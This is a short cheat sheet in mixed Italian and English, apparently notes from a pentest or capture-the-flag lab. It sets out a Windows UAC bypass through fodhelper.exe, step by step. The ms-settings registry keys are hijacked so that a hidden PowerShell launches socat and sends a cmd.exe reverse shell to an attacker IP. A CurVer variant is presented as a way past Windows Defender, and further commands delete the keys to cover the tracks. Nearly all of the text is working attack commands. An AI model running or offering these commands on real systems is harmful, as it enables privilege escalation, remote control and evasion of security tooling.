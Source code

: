 ### **FODHELPER.EXE**

Assegna i valori di registro necessari per associare ms-settings class ad una reverse shell

 1. Create the REG_KEY variable
```POWERSHELL
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
```

 2. Create the CMD variable
```POWERSHELL
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.69.95:4444 EXEC:cmd.exe,pipes"
```
 3. Add the registry key DelegateExecute with an empty value for the class association to take effect
```POWERSHELL
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
```
 4. Add the command to execute to the registry key when fodhelper.exe is started.
```POWERSHELL
reg add %REG_KEY% /d %CMD% /f
```
5. Start fodhelper program
```POWERSHELL
fodhelper.exe
```
pulisci le tue traccie come un ninja
```POWERSHELL
reg delete HKCU\Software\Classes\ms-settings\ /f
```
### **BYPASS WINDOWS DEFENDER CON FODHELPER.EXE**

The command to execute - will send a reverse shell to our attacker machine
```POWERSHELL
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.69.95:4445 EXEC:cmd.exe,pipes"
```
Creating a new ProgID .thm
```POWERSHELL
reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
```
Then, we can create the CurVer ProgID subkey to the ms-setting ProgID. The subkey value points to the new ProgID we just created.
```POWERSHELL
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
```
Pulisci un pochino
```POWERSHELL
reg delete "HKCU\Software\Classes\.thm\" /f

reg delete "HKCU\Software\Classes\ms-settings\" /f
```